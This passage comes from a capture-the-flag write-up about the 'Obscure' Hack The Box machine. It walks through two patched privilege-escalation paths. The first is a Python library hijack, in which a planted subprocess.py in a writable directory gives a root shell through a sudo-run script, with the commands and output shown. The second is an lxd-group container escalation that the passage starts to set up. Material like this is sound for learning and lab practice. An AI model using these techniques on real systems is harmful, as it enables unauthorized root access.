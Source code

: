 
### Patched Path 3: PATH Hijack

At the time of release, the `BetterSSH` directory was writable by
robert:



    robert@obscure:~$ ls -ld BetterSSH/
    drwxrwxrwx 2 root root 4096 Dec  2 09:47 BetterSSH/



Python always tries to load libraries from the directory containing the
main file first, before checking the Python directories. So if I create
a `subprocess.py` in that directory that is just a shell, I can then run
`BetterSSH` and get a root shell:



    robert@obscure:~/BetterSSH$ echo 'import os; os.system("/bin/bash")' > subprocess.py
    robert@obscure:~/BetterSSH$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
    root@obscure:~/BetterSSH# id
    uid=0(root) gid=0(root) groups=0(root)



This was patched at some point between December 2019 and now (hopefully
someday HTB will keep a [public patch
log](https://www.hackthebox.eu/home/ideas/167?page=1)) by removing write
permissions from the `BetterSSH` directory for non-root users.

### Patched Path 4: lxd

At the time of release, robert was in the lxd group:



    robert@obscure:~$ id
    uid=1000(robert) gid=1000(robert) groups=1000(robert),4(adm),24(cdrom),30(dip),46(plugdev),108(lxd)



There's a privesc here that I showed (in poor detail) as a patched
privesc on
[Mischief](/htb-mischief.md#option-3---lxc-patched). I'll
do a more complete job here.

The idea is to create a container on the system, then load it with the
root of the file system mounted into the container. Because I have root
in the container, I have root access to the entire host file system.

I'll check if there are any containers on the system already, but there
are none:



    robert@obscure:~$ lxc image list
    +-------+-------------+--------+-------------+------+------+-------------+
    | ALIAS | FINGERPRINT | PUBLIC | DESCRIPTION | ARCH | SIZE | UPLOAD DATE |
    +-------+-------------+--------+-------------+------+------+-------------+
